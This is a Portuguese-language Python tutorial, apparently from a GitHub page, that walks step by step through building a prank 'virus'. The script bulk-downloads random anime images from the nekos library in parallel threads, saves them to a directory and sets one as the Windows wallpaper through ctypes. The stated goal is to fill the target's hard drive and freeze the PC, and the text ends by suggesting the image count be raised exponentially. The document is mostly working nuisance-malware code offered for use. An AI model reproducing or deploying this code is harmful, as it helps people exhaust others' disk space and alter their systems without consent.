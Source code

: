 Virus hentai paso a paso para python 
Capitulo 1 do virus entendendo como funciona a biblioteca(mas ou menos)

Meu virus de hentai passo a passo para baixa a biblioteca akaneko:
Primeiramente eu to fazendo esse tutorial inspírado num video do youtube irei coloca o link do canal do cara no final do documento, é um pouco semelhante com o dele o meu codigo

De alguma forma se Voce for trabalhar no pyhton nao da para baixa na maneira normal usando o comando:
npm akaneko (somente para quem for progamar em js)
A biblioteca akaneko tem varias outras imagens que voce que progama em java script pode utilizar, mas como estou acostumado em pyhton irei fazer em python
No python voce tem que fazer o seguinte comando:
pip install nekos.py  (isso ira baixa a biblioteca nekos para seu pc, no caso Voce baixara somente isso, fazer o que  se para quem programa em python só vai ter isso mas é suficiente para trava um pc rsrsrs)

Primeiramente vamos adicionar as blibiotecas que vamos usar:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor
import os
import crypes





Primeira parte do codigo:
import requests
import os

def checar_net():
    try:
        requests.get('https://www.google.com/')
        return True
    except requests.ConnectionError:
        return False
if checar_net():
    print("tem net")
else:
    print("não tem net")
Eu me inspirei um cara que vi no youtube que ele sempre checar primeiro se o pc esta conectado na internet

Segundo passo baixa uma imagem aleatoria da biblioteca:
import nekos
import requests

# URL da imagem aleatória de anime
url = nekos.img('neko')

# Baixa a imagem
response = requests.get(url)
with open('imagem1.jpg', 'wb') as f:
    f.write(response.content)

print("Imagem baixada com sucesso!")


Acaso voce queira ve os modulos disponiveis na biblioteca vou repassar o sequinte comando:
import nekos

# Lista todos os atributos do módulo nekos
print(dir(nekos))

você tem os seguintes atributos disponíveis na biblioteca nekos.py:

cat: Retorna uma imagem aleatória de um gato.
dict: Retorna uma imagem aleatória de um dicionário.
eightball: Retorna uma resposta aleatória de uma bola 8.
errors: Lista de exceções personalizadas.
fact: Retorna um fato aleatório.
http: Uma função para lidar com solicitações HTTP.
img: Retorna uma imagem aleatória.
name: Retorna um nome aleatório.
noresponse: Uma exceção para quando não há resposta.
owoify: Owoify seu texto.
spoiler: Owoify seu texto como spoiler.
textcat: Retorna um texto aleatório de um gato.
why: Retorna uma razão aleatória.
Com base nisso, parece que você pode usar img para obter imagens aleatórias. Vamos usá-lo para baixar e exibir uma imagem:
import nekos
import requests
import matplotlib.pyplot as plt

def mostrar_imagem(url):
    # Faz o download da imagem
    response = requests.get(url)
    # Converte a imagem em bytes para exibição
    imagem = plt.imread(response.content, format='jpg')
    # Exibe a imagem
    plt.imshow(imagem)
    plt.axis('off')  # Remove os eixos
    plt.show()

# URL da imagem aleatória
url = nekos.img('neko')

# Mostra a imagem
mostrar_imagem(url)

Este codigo baixara e exibira uma imagem aleatoria de um neko.  Mas é claro que voce não vai querer somente uma imagem ne? :)



Segundo capitulo do virus, baixando mas de uma imagem :)

Esse virus tem o objetivo de lotar o hd da pessoa de imagem então logo abaixo tem o codigo:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor

def download_image(url, path):
    response = requests.get(url)
    if response.status_code == 200:
        with open(path, 'wb') as f:
            f.write(response.content)
        print(f"Imagem salva em {path}")
    else:
        print(f"Falha ao baixar a imagem de {url}. Status code: {response.status_code}")

def main():
    urls = [nekos.img('neko') for _ in range(10)]  # Gere 10 URLs de imagens
    paths = [f'imagem_{i}.jpg' for i in range(10)]  # Crie 10 nomes de arquivo

    with ThreadPoolExecutor(max_workers=10) as executor:
        for url, path in zip(urls, paths):
            executor.submit(download_image, url, path)

if __name__ == "__main__":
    main()
Essa parte é para que voce abaixe somente uma quantidade de imagem limitada, e sim nessa parte eu retirei aquilo de checar a internet mas irei coloca novamente, isso é apenas um exemplo de como voce conseque baixa mas de uma imagem


Logo abaixo eu mostrarei o codigo completo para baixa 100 imagens:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor
import os
import ctypes

#checar inicialmente se tem internet
def checar_net():
    try:
        requests.get('https://www.google.com/')
        return True
    except requests.ConnectionError:
        return False
if checar_net():
    print("tem net")
else:
    print("não tem net")

#função de baixa imagens da biblioteca
def download_image(url, path):
    response = requests.get(url)
    if response.status_code == 200:
        with open(path, 'wb') as f:
            f.write(response.content)
        print(f"Imagem salva em {path}")
    else:
        print(f"Falha ao baixar a imagem de {url}. Status code: {response.status_code}")
        
  #definir a imagem depois do download como papel de parede       
def set_walpaper (image_path):
    if os.path.exists(image_path):
        ctypes.windll.user32.SystemParametersInfoW(20, 0, image_path, 3)
        print(f"papel de parede alterado para {image_path}")
    else:
        print(f"imagem não encontrada: {image_path}")
        
        
        

def main():
    num_images = 100
    urls = [nekos.img('neko') for _ in range(num_images)]  
    diretory = f'D:\\teste_virus\\'   

    with ThreadPoolExecutor(max_workers=10) as executor:
        for i, url in enumerate(urls):
            filename = f'imagem_{i}.jpg'
            path = os.path.join(diretory, filename)
            
            executor.submit(download_image, url, path)
            
    set_walpaper(os.path.join(diretory, 'imagem_1.jpg'))
    
    
    
    
    
if __name__ == "__main__":
    main()

Agora para travar um pc voce tem que aumenta o numero de imagem para baixa, recomendo que modifique e coloque ** exponencial para aumenta de forma significativa 
